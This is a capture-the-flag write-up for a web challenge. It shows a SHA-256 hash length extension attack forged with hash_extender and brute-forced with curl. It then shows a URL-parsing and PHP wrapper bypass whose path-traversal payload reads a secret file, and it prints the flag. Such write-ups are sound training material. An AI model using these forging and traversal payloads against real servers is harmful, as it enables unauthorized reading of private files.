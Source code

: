 # Welcome Christmas

### Category

Web

### Description

![alt](images/1.png)

### Solution

In the previous challenge, we were able to recover an ip address and a link to a web server "http://3.141.159.106", so I go to this page for the next challenge :

![alt](images/2.png)

Here, there is nothing, so first reflex, I will see if the robots.txt file is present :

```
User-agent: Uchiha
Allow: /read.php
```

Here, it gives two clues:
- Our user-agent must be the value "Uchiha".
- We can then visit the read.php page

We arrive on a page which allows us to read a file, but the field for the file to read is already pre-filled with the value "184b5d255817fc0afe9316e67c8f386506a3b28b470c94f47583b76c7c0ec1e5|read.php", here, there is no doubt, we are going to have to make a "hash length extension attack". So we are going to leak the source code of "read.php", to see the algorithm used and see how the script works to confirm or deny our theory.

```php
<?php
if ($_SERVER['HTTP_USER_AGENT']!=="Uchiha"){
	echo "Access Denied. Only Uchiha clan can access this";
}
else{
    //some html
}
?>
//some html
<?php
include "secret.php";
if(isset($_POST['string'])){
	$arr=explode("|",$_POST['string']) ;
	$filenames=$arr[1];
	$hash=$arr[0];
	if($hash===hash("sha256", $SECRET.$filenames ) && preg_match("/\//",$filenames)===0 ){
		foreach(explode(":",$filenames) as $filename){
			if(in_array($filename,["read.php","index.php","guinjutsu.php"])) {
				$jutsu=file_get_contents($filename);
				echo "Sharingan: ".$jutsu;
		    }
		}
	}
	else{
		echo "Verification Failed! You didn't awaken your sharingan!";
	}
}
?>
```

This confirms what I thought, we will have to make a "hash length extension attack" on the sha256 algorithm. For that I will use the "hash-extender" tool, which allows to make this attack.

Here, we can see that the basic value is "sha256|file1.php:file2.php:fileN.php", but we can't know the value of the secret, so this attack is very useful. You can find more informations on this vulnerability here : https://en.wikipedia.org/wiki/Length_extension_attack.

One thing remains unclear, it is the size of the secret, indeed, we do not know it. So we will bruteforce the size of the secret with the "hash-extender" tool :

```sh
./hash_extender --signature="184b5d255817fc0afe9316e67c8f386506a3b28b470c94f47583b76c7c0ec1e5" --secret-min=1 --secret-max=50 --data="read.php" --append=":guinjutsu.php" -f sha256 --out-data-format=html --table | awk '{print $3}' > ../possible_hash
```
We generate here all the possibilities for the size of the secret contained in "secret.php".

Now we just have to bruteforce with curl, and see if we can get the source code of the file "guinjutsu.php".

```sh
for i in `cat test_hash`; do curl -H "User-Agent: Uchiha" -X POST http://3.141.159.106/read.php --data "string=fc979b4620daf4a9db3f5fdddfb3300469162e41daa0d60c976c336701bf7117|$i"; done
```

After several requests, we observe the contents of the file "guinjutsu.php" which is returned to us, our attack thus succeeded!

```php
<?php
// This endpoint is deprecated due to some problems, I heard that other clans have stolen some jutsus
function check($url){
    $par=parse_url($url);
    if (((strpos($par['scheme'],'http')!==false)and($par['host']=='uchiha.fuinjutsukeeper.tech'))and($par['port']==5000)){
        return True;
    }
    else{
        return False;
    }
}

if (isset($_POST['submit'])){
    if ((isset($_POST['api']))and(isset($_POST['endpoint']))){
        $url=$_POST['api'].$_POST['endpoint'];
        if (check($url)){
            $opts = array(
  'http'=>array(
    'method'=>"GET",
    'follow_location'=>false,
    'header'=>"Accept-language: en\r\n"
  )
);
$context = stream_context_create($opts);
$file = file_get_contents($url, false, $context);
echo $file;
        }
    }
}
```

Here, we quickly see that it is this php file that will allow us to read the file at the root "secret.txt", with the file_get_contents.

Unfortunately, there is a check() function that checks the following things:
- The schema contains the string "http"
- The host must be "uchiha.fuinjutsukeeper.tech"
- The port must be "5000"

I know that url parsing is something very complicated, even if it looks simple, there are a lot of special characters that allow to change the host in the middle of the url, change the path, ...

For the first bypass we will use the "@" character, which allows to modify the host :

```php
var_dump(parse_url("http://google.com@uchiha.fuinjutsukeeper.tech:5000"));
```
```
array(4) {                                                                                                                ["scheme"]=>                                                                                                            string(4) "http"                                                                                                        ["host"]=>                                                                                                              string(27) "uchiha.fuinjutsukeeper.tech"                                                                                ["port"]=>                                                                                                              int(5000)                                                                                                               ["user"]=>                                                                                                              string(10) "google.com"                                                                                               }
```

Here, we can fake our host and port to get the one expected by the check function.

One last thing is missing now, and that is the diagram. Indeed, we want to leak a local file, in other words to use the file:/// wrapper, but here, it is necessary that "http" is present in the schema, to pass the check. After reading some docs, I could learn that if PHP doesn't find a wrapper with the given name, it will call .... file:///.

![alt](images/3.png)

So we have all our bypasses now, which gives us the final payload :
```
httpa://@uchiha.fuinjutsukeeper.tech:5000/../../../../../../../../../../secret.txt&endpoint=
```

We send it to the server and we recover the file "secret.txt" :

```
Yogosha{Master_Of_ArbitraRy_ReAdiNg_JuTsu}
Someone calling himself madara said to Itachi to kill everyone, I'm not sure about this intel but if it's right no one can beat Itachi except Shisui. Check this forum they are using http://3.141.109.49
```

### Flag

Yogosha{Master_Of_ArbitraRy_ReAdiNg_JuTsu}